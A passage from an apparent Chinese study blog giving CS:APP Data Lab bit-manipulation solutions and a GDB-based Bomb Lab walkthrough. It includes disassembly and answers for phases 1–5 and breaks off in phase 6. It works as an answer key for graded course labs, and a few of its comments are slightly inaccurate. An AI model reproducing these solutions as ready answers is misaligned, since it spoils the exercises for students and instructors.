   int negate(int x) {
     return ~x+1;
   }
   ```

   负数补码=反码+1

6. 判断是否是 ascii 字符

   ```c
   /*
    * isAsciiDigit - return 1 if 0x30 <= x <= 0x39 (ASCII codes for characters '0' to '9')
    *   Example: isAsciiDigit(0x35) = 1.
    *            isAsciiDigit(0x3a) = 0.
    *            isAsciiDigit(0x05) = 0.
    *   Legal ops: ! ~ & ^ | + << >>
    *   Max ops: 15
    *   Rating: 3
    */
   int isAsciiDigit(int x) {
     return !(x>>4^3) & ( ((x>>3&1)^1) | ( (x>>3&1) & !(x >> 1 & 3)) );
   }
   ```

   首先判断是否是 0x3*，末尾 0 ~ 9 的二进制表示可以表示为 0\*\*\* 和 1000，1001，分别处理这三种情况即可。

7. conditional，使用位运算实现三元运算符

   ```c
   /*
    * conditional - same as x ? y : z
    *   Example: conditional(2,4,5) = 4
    *   Legal ops: ! ~ & ^ | + << >>
    *   Max ops: 16
    *   Rating: 3
    */
   int conditional(int x, int y, int z) {
     return (z&(!!x+~0))+(y&(!x+~0));
   }
   ```

   对于任意一个数字有以下对应表：

   |   x   |  !x  | !!x  |     !!x+~0     |
   | :---: | :--: | :--: | :------------: |
   |   0   |  1   |  0   | -1(0xffffffff) |
   | other |  0   |  1   | 0(0x00000000)  |

   因此上表就将 int 范围内的所有整数映射到两个点上。

   而对于只能含加法运算来实现选择的功能，必然需要实现减法：

   * 当 $x = 0$ 时，值为 $z$，可以看作 $y\&0+z\&\text{0x11111111}$
   * 当 $x\ne 0$ 时，值为 $y$，可以看作 $z\&0+y\&\text{0x11111111}$

8. isLessOrEqual，实现小于等于的功能

   ```c
   int isLessOrEqual(int x, int y) {
       int xs = x >> 31 & 1;
       int ys = y >> 31 & 1;
       int s = !((ys + (~xs+1)) ^ ~0);	// 判断是否符号相同
       int ss = !!((ys+(~xs+1)) ^ 1);	// 判断是否符号不同
       //printf("\n%d-%d-%d\n",xs,ys,s);
       return ss & (s | ((y+(~x+1) >> 31) + 1));
   }
   ```

   首先想到的就是减法运算，但是如果 Tmax - Tmin 就会出现溢出的情况。因此需要首先判断符号，如果 x 是负数 y 是非负数即返回 1；然后再进行减法运算。

9. logicalNeg，不使用 `!` 符号实现逻辑非运算。

   ```c
   /*
    * logicalNeg - implement the ! operator, using all of
    *              the legal operators except !
    *   Examples: logicalNeg(3) = 0, logicalNeg(0) = 1
    *   Legal ops: ~ & ^ | + << >>
    *   Max ops: 12
    *   Rating: 4
    */
   int logicalNeg(int x) {
       x = x | (x << 16);
       x = x | (x << 8);
       x = x | (x << 4);
       x = x | (x << 2);
       x = x | (x << 1);
       return (x >> 31) + 1;
   }
   ```

   判断逻辑非运算即判断数字每一位中是否存在 1，但是只使用 12 个操作数对于 32 位的 int 数字来说，逐位进行比较显然不可能。

   根据思想，只有数字任何一位中存在 1 进行非运算后都为 0。为了减少运算应该采用**分治**的思想。

   将低位的 1 使用或运算全部聚合到高位即可，最终判断最高位是否为 1 即可。

10. howManyBits，计算需要最少使用多少个 bit 来表示某个数字的补码

    ```c
    /* howManyBits - return the minimum number of bits required to represent x in
     *             two's complement
     *  Examples: howManyBits(12) = 5
     *            howManyBits(298) = 10
     *            howManyBits(-5) = 4
     *            howManyBits(0)  = 1
     *            howManyBits(-1) = 1
     *            howManyBits(0x80000000) = 32
     *  Legal ops: ! ~ & ^ | + << >>
     *  Max ops: 90
     *  Rating: 4
     */
    int howManyBits(int x) {
        int b16,b8,b4,b2,b1,b0;
        int sign=x>>31;
        x = (sign&~x)|(~sign&x);//正不变，否则按位取反
        // 不断缩小范围
        b16 = !!(x>>16)<<4;//高十六位是否有1
        x = x>>b16;//如果有（至少需要16位），则将原数右移16位
        b8 = !!(x>>8)<<3;//剩余位高8位是否有1
        x = x>>b8;//如果有（至少需要16+8=24位），则右移8位
        b4 = !!(x>>4)<<2;//同理
        x = x>>b4;
        b2 = !!(x>>2)<<1;
        x = x>>b2;
        b1 = !!(x>>1);
        x = x>>b1;
        b0 = x;
        return b16+b8+b4+b2+b1+b0+1;//+1表示加上符号位
    }
    ```

    同样采用**分治**的思想，如果高位存在则低位必然存在，比较难想到。

11. floatScale2，将 32 位 float 以 IIEEE 754 的表现形式乘以 2

    ```c
    /*
     * floatScale2 - Return bit-level equivalent of expression 2*f for
     *   floating point argument f.
     *   Both the argument and result are passed as unsigned int's, but
     *   they are to be interpreted as the bit-level representation of
     *   single-precision floating point values.
     *   When argument is NaN, return argument
     *   Legal ops: Any integer/unsigned operations incl. ||, &&. also if, while
     *   Max ops: 30
     *   Rating: 4
     */
    unsigned floatScale2(unsigned uf) {
        unsigned mf = 0xff << 23;
        unsigned lf = (1 << 23) - 1;
        unsigned s = (uf & mf) >> 23;
        // inf
        if(s == 0xff)return uf;
        // zero and more smaller
        unsigned ff = uf & lf;
        if(s == 0){
            if(ff == 0)return uf;
            ff *= 2;
            if(ff >= 1 << 23) {
                s +=1;
            }
            ff = ff & lf;
            uf = (uf & ~lf) | ff;
        } else s += 1;
    
        uf = (uf & ~mf) | (s << 23);
        return uf;
    }
    ```

    使用与运算得到 exp 和 frac 部分。如果 exp = 0xff 则表示位无穷大；如果 exp = 0x0 则可能表示 0 或者十分接近 0 的数，对于十分接近 0 的数乘以 2，可能会改变 exp 也有可能不会改变 exp 部分，对于改变 exp 部分的需要将 frac 表示为 1.xxx 的形式，否则仍然是 0.xxx 的形式。对于 exp ≠ 0x0 只需要将 exp +1即可。

12. floatFloat2Int，实现 float 到 int 类型的强转

    ```c
    /*
     * floatFloat2Int - Return bit-level equivalent of expression (int) f
     *   for floating point argument f.
     *   Argument is passed as unsigned int, but
     *   it is to be interpreted as the bit-level representation of a
     *   single-precision floating point value.
     *   Anything out of range (including NaN and infinity) should return
     *   0x80000000u.
     *   Legal ops: Any integer/unsigned operations incl. ||, &&. also if, while
     *   Max ops: 30
     *   Rating: 4
     */
    int floatFloat2Int(unsigned uf) {
        int mf = 0xff << 23, lf = (1 << 23) - 1;
        int fs = uf >> 31 & 1, ms = (uf & mf) >> 23, ls = (uf & lf) | (1 << 23);
        // 过于小的值，直接返回 0
        if (ms <= 126) return 0;
        if (ms >= 159) return 0x80000000u;
        int sh = ms - 127 - 23;
        while(sh != 0) {
            if(sh++ < 0) ls = ls >> 1;
            else if(sh-- > 0) ls = ls << 1;
        }
        return fs == 1 ? - ls : ls;
    }
    ```

    对于 0.xxxx 即 $2^{-x},x\gt 0$ 的数字直接返回 0；对于溢出的数字返回 UMax；然后将 frac 部分进行移位即可，最后再判断以下符号位。

13. floatPower2，实现 $2^x$

    ```c
    /*
     * floatPower2 - Return bit-level equivalent of the expression 2.0^x
     *   (2.0 raised to the power x) for any 32-bit integer x.
     *
     *   The unsigned value that is returned should have the identical bit
     *   representation as the single-precision floating-point number 2.0^x.
     *   If the result is too small to be represented as a denorm, return
     *   0. If too large, return +INF.
     *
     *   Legal ops: Any integer/unsigned operations incl. ||, &&. Also if, while
     *   Max ops: 30
     *   Rating: 4
     */
    unsigned floatPower2(int x) {
        // +INF
        if (x > 127) return 0xff << 23;
        if (x < -126) return 0;
        x = x + 127;
        return x << 23;
    }
    ```

    比较明了。

### 2. Boob Lab - WP

如何使用 GDB：[100个gdb小技巧](https://wizardforcel.gitbooks.io/100-gdb-tips/content/)

1. Phase 1

   首先查看函数 `phase_1` ：

   ```sh
   (gdb) disassemble phase_1
   Dump of assembler code for function phase_1:
   => 0x0000000000400ee0 <+0>:     sub    $0x8,%rsp
      0x0000000000400ee4 <+4>:     mov    $0x402400,%esi
      0x0000000000400ee9 <+9>:     callq  0x401338 <strings_not_equal>
      0x0000000000400eee <+14>:    test   %eax,%eax
      0x0000000000400ef0 <+16>:    je     0x400ef7 <phase_1+23>
      0x0000000000400ef2 <+18>:    callq  0x40143a <explode_bomb>
      0x0000000000400ef7 <+23>:    add    $0x8,%rsp
      0x0000000000400efb <+27>:    retq
   End of assembler dump.
   ```

   可以看到需要通过函数 `strings_not_equal` 函数才能躲过 `explode_bomb`，因此查看 `strings_not_equal` 函数：

   ```sh
   (gdb) disassemble strings_not_equal
   Dump of assembler code for function strings_not_equal:
      0x0000000000401338 <+0>:     push   %r12
      0x000000000040133a <+2>:     push   %rbp
      0x000000000040133b <+3>:     push   %rbx
      0x000000000040133c <+4>:     mov    %rdi,%rbx
      0x000000000040133f <+7>:     mov    %rsi,%rbp
      // 计算 a 字符串的长度
      0x0000000000401342 <+10>:    callq  0x40131b <string_length>
      0x0000000000401347 <+15>:    mov    %eax,%r12d
      // 计算 b 字符串的长度
      0x000000000040134a <+18>:    mov    %rbp,%rdi
      0x000000000040134d <+21>:    callq  0x40131b <string_length>
      0x0000000000401352 <+26>:    mov    $0x1,%edx
      // 比较两个字符串长度，如果不相同就跳到 99 处
      0x0000000000401357 <+31>:    cmp    %eax,%r12d
      0x000000000040135a <+34>:    jne    0x40139b <strings_not_equal+99>
      // 判断字符串是否为空，如果空也返回真（但是一般情况下不可能输入为空字符串）
      0x000000000040135c <+36>:    movzbl (%rbx),%eax
      0x000000000040135f <+39>:    test   %al,%al
      0x0000000000401361 <+41>:    je     0x401388 <strings_not_equal+80>
      0x0000000000401363 <+43>:    cmp    0x0(%rbp),%al
      0x0000000000401366 <+46>:    je     0x401372 <strings_not_equal+58>
      0x0000000000401368 <+48>:    jmp    0x40138f <strings_not_equal+87>
      // =====逐个比较字符串，循环开始 =====
      0x000000000040136a <+50>:    cmp    0x0(%rbp),%al
      0x000000000040136d <+53>:    nopl   (%rax)
      0x0000000000401370 <+56>:    jne    0x401396 <strings_not_equal+94>
      // 判断对比相同，同时+1
      0x0000000000401372 <+58>:    add    $0x1,%rbx
      0x0000000000401376 <+62>:    add    $0x1,%rbp
      0x000000000040137a <+66>:    movzbl (%rbx),%eax
      0x000000000040137d <+69>:    test   %al,%al
      0x000000000040137f <+71>:    jne    0x40136a <strings_not_equal+50>
      // ===== 循环结束 =====
      0x0000000000401381 <+73>:    mov    $0x0,%edx
      0x0000000000401386 <+78>:    jmp    0x40139b <strings_not_equal+99>
      0x0000000000401388 <+80>:    mov    $0x0,%edx
      0x000000000040138d <+85>:    jmp    0x40139b <strings_not_equal+99>
      0x000000000040138f <+87>:    mov    $0x1,%edx
      0x0000000000401394 <+92>:    jmp    0x40139b <strings_not_equal+99>
      0x0000000000401396 <+94>:    mov    $0x1,%edx
      0x000000000040139b <+99>:    mov    %edx,%eax
      0x000000000040139d <+101>:   pop    %rbx
      0x000000000040139e <+102>:   pop    %rbp
      0x000000000040139f <+103>:   pop    %r12
      0x00000000004013a1 <+105>:   retq
   End of assembler dump.
   ```

   通过查看寄存器 rdi 和 rsi 查看函数信息：

   ```sh
   (gdb) x/s $rdi
   0x603780 <input_strings>:       "123"
   (gdb) x/s $rsi
   0x402400:       "Border relations with Canada have never been better."
   ```

   因此可以知道这是对比两个字符串是否相等。到这一步就可以知道 phase 1 的答案了。

   进一步分析 `strings_not_equal` 函数，计算两个字符串的长度，不相同则将 edx 置为 1，返回 rax ，然后逐个对比字符，直至遇到 `\0`。

2. phase 2

   查看 `phase_2` 函数：

   ```sh
   (gdb) disassemble phase_2
   Dump of assembler code for function phase_2:
      0x0000000000400efc <+0>:     push   %rbp
      0x0000000000400efd <+1>:     push   %rbx
      0x0000000000400efe <+2>:     sub    $0x28,%rsp
      0x0000000000400f02 <+6>:     mov    %rsp,%rsi
      0x0000000000400f05 <+9>:     callq  0x40145c <read_six_numbers>
      // 第一位必须是 1
      0x0000000000400f0a <+14>:    cmpl   $0x1,(%rsp)
      0x0000000000400f0e <+18>:    je     0x400f30 <phase_2+52>
      0x0000000000400f10 <+20>:    callq  0x40143a <explode_bomb>
      0x0000000000400f15 <+25>:    jmp    0x400f30 <phase_2+52>
      // 比较索引 arr[i] * 2 == arr[i+1]
      0x0000000000400f17 <+27>:    mov    -0x4(%rbx),%eax
      0x0000000000400f1a <+30>:    add    %eax,%eax
      0x0000000000400f1c <+32>:    cmp    %eax,(%rbx)
      0x0000000000400f1e <+34>:    je     0x400f25 <phase_2+41>
      0x0000000000400f20 <+36>:    callq  0x40143a <explode_bomb>
      0x0000000000400f25 <+41>:    add    $0x4,%rbx
      // 是否达到数组末尾
      0x0000000000400f29 <+45>:    cmp    %rbp,%rbx
      0x0000000000400f2c <+48>:    jne    0x400f17 <phase_2+27>
      0x0000000000400f2e <+50>:    jmp    0x400f3c <phase_2+64>
      // 将数组索引为 1 传给rbx
      0x0000000000400f30 <+52>:    lea    0x4(%rsp),%rbx
      // 将数组索引为 5（0x18=24） 传给rbp
      0x0000000000400f35 <+57>:    lea    0x18(%rsp),%rbp
      0x0000000000400f3a <+62>:    jmp    0x400f17 <phase_2+27>
      0x0000000000400f3c <+64>:    add    $0x28,%rsp
      0x0000000000400f40 <+68>:    pop    %rbx
      0x0000000000400f41 <+69>:    pop    %rbp
      0x0000000000400f42 <+70>:    retq
   End of assembler dump.
   ```

   遇到一个叫 `read_six_numbers` 的函数，查看其代码，可以知道其是读取 6 个数字的函数：

   ```sh
   (gdb) disassemble read_six_numbers
   Dump of assembler code for function read_six_numbers:
      0x000000000040145c <+0>:     sub    $0x18,%rsp
      // rsi 应该是 int* 指针
      0x0000000000401460 <+4>:     mov    %rsi,%rdx
      0x0000000000401463 <+7>:     lea    0x4(%rsi),%rcx
      0x0000000000401467 <+11>:    lea    0x14(%rsi),%rax
      // 将输入字符串存入栈
      0x000000000040146b <+15>:    mov    %rax,0x8(%rsp)
      0x0000000000401470 <+20>:    lea    0x10(%rsi),%rax
      0x0000000000401474 <+24>:    mov    %rax,(%rsp)
      0x0000000000401478 <+28>:    lea    0xc(%rsi),%r9
      0x000000000040147c <+32>:    lea    0x8(%rsi),%r8
      0x0000000000401480 <+36>:    mov    $0x4025c3,%esi
      0x0000000000401485 <+41>:    mov    $0x0,%eax
      0x000000000040148a <+46>:    callq  0x400bf0 <__isoc99_sscanf@plt>
      // 大于 5 个数字才能通过
      0x000000000040148f <+51>:    cmp    $0x5,%eax
      0x0000000000401492 <+54>:    jg     0x401499 <read_six_numbers+61>
      0x0000000000401494 <+56>:    callq  0x40143a <explode_bomb>
      0x0000000000401499 <+61>:    add    $0x18,%rsp
      0x000000000040149d <+65>:    retq
   End of assembler dump.
   ```

   根据对 `phase_2` 函数的分析，答案为 `1 2 4 8 16 32`

3. phase 3

   查看 `phase_3` 函数：

   ```sh
   (gdb) disassemble phase_3
   Dump of assembler code for function phase_3:
   	// 分配一个 24 字节的空间
      0x0000000000400f43 <+0>:     sub    $0x18,%rsp
      // 按照两个地址相差大小，推测是 int 或者 float
      0x0000000000400f47 <+4>:     lea    0xc(%rsp),%rcx
      0x0000000000400f4c <+9>:     lea    0x8(%rsp),%rdx
      // %d %d
      0x0000000000400f51 <+14>:    mov    $0x4025cf,%esi
      0x0000000000400f56 <+19>:    mov    $0x0,%eax
      0x0000000000400f5b <+24>:    callq  0x400bf0 <__isoc99_sscanf@plt>
      // 必须是两个参数
      0x0000000000400f60 <+29>:    cmp    $0x1,%eax
      0x0000000000400f63 <+32>:    jg     0x400f6a <phase_3+39>
      0x0000000000400f65 <+34>:    callq  0x40143a <explode_bomb>
      // 不能大于 7
      0x0000000000400f6a <+39>:    cmpl   $0x7,0x8(%rsp)
      0x0000000000400f6f <+44>:    ja     0x400fad <phase_3+106>
      0x0000000000400f71 <+46>:    mov    0x8(%rsp),%eax
      // ==== 跳转到数组对应的地址 ====
      0x0000000000400f75 <+50>:    jmpq   *0x402470(,%rax,8)
      0x0000000000400f7c <+57>:    mov    $0xcf,%eax
      0x0000000000400f81 <+62>:    jmp    0x400fbe <phase_3+123>
      0x0000000000400f83 <+64>:    mov    $0x2c3,%eax
      0x0000000000400f88 <+69>:    jmp    0x400fbe <phase_3+123>
      0x0000000000400f8a <+71>:    mov    $0x100,%eax
      0x0000000000400f8f <+76>:    jmp    0x400fbe <phase_3+123>
      0x0000000000400f91 <+78>:    mov    $0x185,%eax
      0x0000000000400f96 <+83>:    jmp    0x400fbe <phase_3+123>
      0x0000000000400f98 <+85>:    mov    $0xce,%eax
      0x0000000000400f9d <+90>:    jmp    0x400fbe <phase_3+123>
      0x0000000000400f9f <+92>:    mov    $0x2aa,%eax
      0x0000000000400fa4 <+97>:    jmp    0x400fbe <phase_3+123>
      0x0000000000400fa6 <+99>:    mov    $0x147,%eax
      0x0000000000400fab <+104>:   jmp    0x400fbe <phase_3+123>
      0x0000000000400fad <+106>:   callq  0x40143a <explode_bomb>
      0x0000000000400fb2 <+111>:   mov    $0x0,%eax
      0x0000000000400fb7 <+116>:   jmp    0x400fbe <phase_3+123>
      0x0000000000400fb9 <+118>:   mov    $0x137,%eax
      // 第二个参数与 eax 对比
      0x0000000000400fbe <+123>:   cmp    0xc(%rsp),%eax
      0x0000000000400fc2 <+127>:   je     0x400fc9 <phase_3+134>
      0x0000000000400fc4 <+129>:   callq  0x40143a <explode_bomb>
      0x0000000000400fc9 <+134>:   add    $0x18,%rsp
      0x0000000000400fcd <+138>:   retq
   End of assembler dump.
   ```

   关键部分就是 `jmpq   *0x402470(,%rax,8)` 语句，这里应该是存储的地址数组，根据第一个参数的值跳转的对应的地址，因此查看 `0x402470` 内存：

   ```
   (gdb) x/8xg 0x402470
   0x402470:       0x0000000000400f7c      0x0000000000400fb9
   0x402480:       0x0000000000400f83      0x0000000000400f8a
   0x402490:       0x0000000000400f91      0x0000000000400f98
   0x4024a0:       0x0000000000400f9f      0x0000000000400fa6
   ```

   可以看到分别有 8 个地址，这也解释了为什么第一个参数不能大于 7.

   每个地址对应一个 eax 值，这个 eax 是和第二个参数进行对比，因此本题有多个答案：

   ```
   0 207
   1 311
   2 707
   3 256
   4 389
   5 206
   6 682
   7 327
   ```

4. phase 4

   首先查看 `phase_4` 函数：

   ```sh
   (gdb) disassemble phase_4
   Dump of assembler code for function phase_4:
      0x000000000040100c <+0>:     sub    $0x18,%rsp
      0x0000000000401010 <+4>:     lea    0xc(%rsp),%rcx
      0x0000000000401015 <+9>:     lea    0x8(%rsp),%rdx
      0x000000000040101a <+14>:    mov    $0x4025cf,%esi
      0x000000000040101f <+19>:    mov    $0x0,%eax
      0x0000000000401024 <+24>:    callq  0x400bf0 <__isoc99_sscanf@plt>
      0x0000000000401029 <+29>:    cmp    $0x2,%eax
      0x000000000040102c <+32>:    jne    0x401035 <phase_4+41>
      // 判断第一个参数必须小于等于 15
      0x000000000040102e <+34>:    cmpl   $0xe,0x8(%rsp)
      0x0000000000401033 <+39>:    jbe    0x40103a <phase_4+46>
      0x0000000000401035 <+41>:    callq  0x40143a <explode_bomb>
      // 判断函数 func4
      0x000000000040103a <+46>:    mov    $0xe,%edx
      0x000000000040103f <+51>:    mov    $0x0,%esi
      0x0000000000401044 <+56>:    mov    0x8(%rsp),%edi
      0x0000000000401048 <+60>:    callq  0x400fce <func4>
      0x000000000040104d <+65>:    test   %eax,%eax
      0x000000000040104f <+67>:    jne    0x401058 <phase_4+76>
      // 第二个参数必须为 0
      0x0000000000401051 <+69>:    cmpl   $0x0,0xc(%rsp)
      0x0000000000401056 <+74>:    je     0x40105d <phase_4+81>
      0x0000000000401058 <+76>:    callq  0x40143a <explode_bomb>
      0x000000000040105d <+81>:    add    $0x18,%rsp
      0x0000000000401061 <+85>:    retq
   End of assembler dump.
   ```

   其中出现了判断函数 `func4`，查看：

   ```sh
   (gdb) disassemble func4
   Dump of assembler code for function func4:
      0x0000000000400fce <+0>:     sub    $0x8,%rsp
      0x0000000000400fd2 <+4>:     mov    %edx,%eax
      0x0000000000400fd4 <+6>:     sub    %esi,%eax
      0x0000000000400fd6 <+8>:     mov    %eax,%ecx
      0x0000000000400fd8 <+10>:    shr    $0x1f,%ecx
      0x0000000000400fdb <+13>:    add    %ecx,%eax
      0x0000000000400fdd <+15>:    sar    %eax
      // eax = 7
      0x0000000000400fdf <+17>:    lea    (%rax,%rsi,1),%ecx
      // ecx = 7
      0x0000000000400fe2 <+20>:    cmp    %edi,%ecx
      0x0000000000400fe4 <+22>:    jle    0x400ff2 <func4+36>
      0x0000000000400fe6 <+24>:    lea    -0x1(%rcx),%edx
      0x0000000000400fe9 <+27>:    callq  0x400fce <func4>
      0x0000000000400fee <+32>:    add    %eax,%eax
      0x0000000000400ff0 <+34>:    jmp    0x401007 <func4+57>
      0x0000000000400ff2 <+36>:    mov    $0x0,%eax
      0x0000000000400ff7 <+41>:    cmp    %edi,%ecx
      0x0000000000400ff9 <+43>:    jge    0x401007 <func4+57>
      0x0000000000400ffb <+45>:    lea    0x1(%rcx),%esi
      0x0000000000400ffe <+48>:    callq  0x400fce <func4>
      0x0000000000401003 <+53>:    lea    0x1(%rax,%rax,1),%eax
      0x0000000000401007 <+57>:    add    $0x8,%rsp
      0x000000000040100b <+61>:    retq
   End of assembler dump.
   ```

   大致func4 C语言形式为：

   ```c
   int func4(int a, int b, int c) {
       int eax = c - b;
       eax = (eax + (eax >> 31)) >> 1;
       int ecx = eax + b;
       if(a <= ecx){
           eax = 0;
           if(a>=ecx) {
               return eax;
           } else {
               b = ecx + 1;
               eax = func4(a,b,c);
               eax = eax * 2 +1;
           }
   
       }else {
           eax = func4(a, b, ecx - 1);
           eax = eax * 2;
       }
       return eax;
   }
   ```

   由于最终想要 func4 返回结果为0，其中既要满足 a<= ecx 又要满足 a>= ecx ，则需要 a = ecx，通过计算可以得到 a = 7。

   本函数主要考察的是位运算。

   得到答案 `7 0`

5. phase 5

   查看 `phase_5` 函数：

   ```assembly
   (gdb) disassemble phase_5
   Dump of assembler code for function phase_5:
      0x0000000000401062 <+0>:     push   %rbx
      0x0000000000401063 <+1>:     sub    $0x20,%rsp
      0x0000000000401067 <+5>:     mov    %rdi,%rbx
      0x000000000040106a <+8>:     mov    %fs:0x28,%rax
      0x0000000000401073 <+17>:    mov    %rax,0x18(%rsp)
      0x0000000000401078 <+22>:    xor    %eax,%eax
      // 判断字符串长度是否为 6
      0x000000000040107a <+24>:    callq  0x40131b <string_length>
      0x000000000040107f <+29>:    cmp    $0x6,%eax
      0x0000000000401082 <+32>:    je     0x4010d2 <phase_5+112>
      0x0000000000401084 <+34>:    callq  0x40143a <explode_bomb>
      0x0000000000401089 <+39>:    jmp    0x4010d2 <phase_5+112>
      // 
      0x000000000040108b <+41>:    movzbl (%rbx,%rax,1),%ecx
      0x000000000040108f <+45>:    mov    %cl,(%rsp)
      0x0000000000401092 <+48>:    mov    (%rsp),%rdx
      // 将数字限制在 0-0xf 范围内
      0x0000000000401096 <+52>:    and    $0xf,%edx
      0x0000000000401099 <+55>:    movzbl 0x4024b0(%rdx),%edx
      // char[rax]=str[c&0xf]
      0x00000000004010a0 <+62>:    mov    %dl,0x10(%rsp,%rax,1)
      0x00000000004010a4 <+66>:    add    $0x1,%rax
      // 判断字符串长度是否为 6
      0x00000000004010a8 <+70>:    cmp    $0x6,%rax
      0x00000000004010ac <+74>:    jne    0x40108b <phase_5+41>
      0x00000000004010ae <+76>:    movb   $0x0,0x16(%rsp)
      // 将拼接后的字符串与0x40245e的字符串进行比较是否一致
      0x00000000004010b3 <+81>:    mov    $0x40245e,%esi
      0x00000000004010b8 <+86>:    lea    0x10(%rsp),%rdi
      0x00000000004010bd <+91>:    callq  0x401338 <strings_not_equal>
      0x00000000004010c2 <+96>:    test   %eax,%eax
      0x00000000004010c4 <+98>:    je     0x4010d9 <phase_5+119>
      0x00000000004010c6 <+100>:   callq  0x40143a <explode_bomb>
      0x00000000004010cb <+105>:   nopl   0x0(%rax,%rax,1)
      0x00000000004010d0 <+110>:   jmp    0x4010d9 <phase_5+119>
      0x00000000004010d2 <+112>:   mov    $0x0,%eax
      0x00000000004010d7 <+117>:   jmp    0x40108b <phase_5+41>
      0x00000000004010d9 <+119>:   mov    0x18(%rsp),%rax
      0x00000000004010de <+124>:   xor    %fs:0x28,%rax
      0x00000000004010e7 <+133>:   je     0x4010ee <phase_5+140>
      0x00000000004010e9 <+135>:   callq  0x400b30 <__stack_chk_fail@plt>
      0x00000000004010ee <+140>:   add    $0x20,%rsp
      0x00000000004010f2 <+144>:   pop    %rbx
      0x00000000004010f3 <+145>:   retq
   End of assembler dump.
   ```

   关键点在与 `0x4024b0` 处的数组进行对比，查看其数据：

   ```
   (gdb) x/s 0x4024b0
   0x4024b0 <array.3449>:  "maduiersnfotvbylSo you think you can stop the bomb with ctrl-c"
   ```

   > 这里 char 应该是使用数组定义的，不是使用字符串定义初始化的，所有尾部没有 `\0` 字符。

   `0x40245e` 处的字符串为：

   ```sh
   (gdb) x/s 0x40245e
   0x40245e:       "flyers"
   ```

   所以这个题的思路就是将字符串输入的每个字符和 0xf 作与运算得到的`maduiersnfotvbyl` char 数组的索引，拼接成 flyers。

   因此答案为：`IONEFG` (非唯一)

6. phase_6

   查看 `phase_6` 代码：

   ```assembly
   (gdb) disassemble phase_6
   Dump of assembler code for function phase_6:
      0x00000000004010f4 <+0>:     push   %r14
      0x00000000004010f6 <+2>:     push   %r13
      0x00000000004010f8 <+4>:     push   %r12
      0x00000000004010fa <+6>:     push   %rbp
      0x00000000004010fb <+7>:     push   %rbx
      // 50 字节的栈
      0x00000000004010fc <+8>:     sub    $0x50,%rsp
      0x0000000000401100 <+12>:    mov    %rsp,%r13
      0x0000000000401103 <+15>:    mov    %rsp,%rsi
      0x0000000000401106 <+18>:    callq  0x40145c <read_six_numbers>
      0x000000000040110b <+23>:    mov    %rsp,%r14
      0x000000000040110e <+26>:    mov    $0x0,%r12d
      // ==== 循环 a start ====
      0x0000000000401114 <+32>:    mov    %r13,%rbp
      0x0000000000401117 <+35>:    mov    0x0(%r13),%eax
      // 数字必须小于等于 6 且各不相同
      0x000000000040111b <+39>:    sub    $0x1,%eax
      0x000000000040111e <+42>:    cmp    $0x5,%eax
      0x0000000000401121 <+45>:    jbe    0x401128 <phase_6+52>
      0x0000000000401123 <+47>:    callq  0x40143a <explode_bomb>
      0x0000000000401128 <+52>:    add    $0x1,%r12d
      // 是否遍历完毕 6 个数字
      0x000000000040112c <+56>:    cmp    $0x6,%r12d
      0x0000000000401130 <+60>:    je     0x401153 <phase_6+95>
      // r12d 为索引
      0x0000000000401132 <+62>:    mov    %r12d,%ebx
      // ==== 循环 b start ====
      0x0000000000401135 <+65>:    movslq %ebx,%rax
      // int[rax]
      0x0000000000401138 <+68>:    mov    (%rsp,%rax,4),%eax
      // 不能与第一个元素相同
      0x000000000040113b <+71>:    cmp    %eax,0x0(%rbp)
      0x000000000040113e <+74>:    jne    0x401145 <phase_6+81>
      0x0000000000401140 <+76>:    callq  0x40143a <explode_bomb>
      0x0000000000401145 <+81>:    add    $0x1,%ebx
      0x0000000000401148 <+84>:    cmp    $0x5,%ebx
      0x000000000040114b <+87>:    jle    0x401135 <phase_6+65>   
      0x000000000040114d <+89>:    add    $0x4,%r13
      0x0000000000401151 <+93>:    jmp    0x401114 <phase_6+32>
      // ==== 循环 a/b end ====
      0x0000000000401153 <+95>:    lea    0x18(%rsp),%rsi
      0x0000000000401158 <+100>:   mov    %r14,%rax
      // 使用 7 - 数组中每个元素
      0x000000000040115b <+103>:   mov    $0x7,%ecx
      0x0000000000401160 <+108>:   mov    %ecx,%edx
      0x0000000000401162 <+110>:   sub    (%rax),%edx
      0x0000000000401164 <+112>:   mov    %edx,(%rax)
      0x0000000000401166 <+114>:   add    $0x4,%rax
      0x000000000040116a <+118>:   cmp    %rsi,%rax
      0x000000000040116d <+121>:   jne    0x401160 <phase_6+108>
      
      0x000000000040116f <+123>:   mov    $0x0,%esi
      0x0000000000401174 <+128>:   jmp    0x401197 <phase_6+163>
      // 数组元素 > 1
      0x0000000000401176 <+130>:   mov    0x8(%rdx),%rdx
      0x000000000040117a <+134>:   add    $0x1,%eax
      0x000000000040117d <+137>:   cmp    %ecx,%eax
      0x000000000040117f <+139>:   jne    0x401176 <phase_6+130>
      0x0000000000401181 <+141>:   jmp    0x401188 <phase_6+148>
      // 数组元素 <= 1
      0x0000000000401183 <+143>:   mov    $0x6032d0,%edx
      // long[rsi] = 0x6032d0 5
      0x0000000000401188 <+148>:   mov    %rdx,0x20(%rsp,%rsi,2)
      0x000000000040118d <+153>:   add    $0x4,%rsi
      0x0000000000401191 <+157>:   cmp    $0x18,%rsi
      0x0000000000401195 <+161>:   je     0x4011ab <phase_6+183>
      // ecx 数组的元素 int[rsi]
      0x0000000000401197 <+163>:   mov    (%rsp,%rsi,1),%ecx
      0x000000000040119a <+166>:   cmp    $0x1,%ecx
      0x000000000040119d <+169>:   jle    0x401183 <phase_6+143>
      0x000000000040119f <+171>:   mov    $0x1,%eax
      0x00000000004011a4 <+176>:   mov    $0x6032d0,%edx
      0x00000000004011a9 <+181>:   jmp    0x401176 <phase_6+130>
      // 对 long 数组进行操作，long数组中保存的是地址（类型是long）
      0x00000000004011ab <+183>:   mov    0x20(%rsp),%rbx
      0x00000000004011b0 <+188>:   lea    0x28(%rsp),%rax
      0x00000000004011b5 <+193>:   lea    0x50(%rsp),%rsi
      0x00000000004011ba <+198>:   mov    %rbx,%rcx
      // === 循环 C start === rcx = long[i], rax = &long[i + 1]
      // *(long[0]+8) = long[i+1]
      0x00000000004011bd <+201>:   mov    (%rax),%rdx
      0x00000000004011c0 <+204>:   mov    %rdx,0x8(%rcx)
      0x00000000004011c4 <+208>:   add    $0x8,%rax
      0x00000000004011c8 <+212>:   cmp    %rsi,%rax
      0x00000000004011cb <+215>:   je     0x4011d2 <phase_6+222>
      // =long[i+1]
      0x00000000004011cd <+217>:   mov    %rdx,%rcx
      0x00000000004011d0 <+220>:   jmp    0x4011bd <phase_6+201>
      // ==== 循环 C end ===
      0x00000000004011d2 <+222>:   movq   $0x0,0x8(%rdx)
      0x00000000004011da <+230>:   mov    $0x5,%ebp
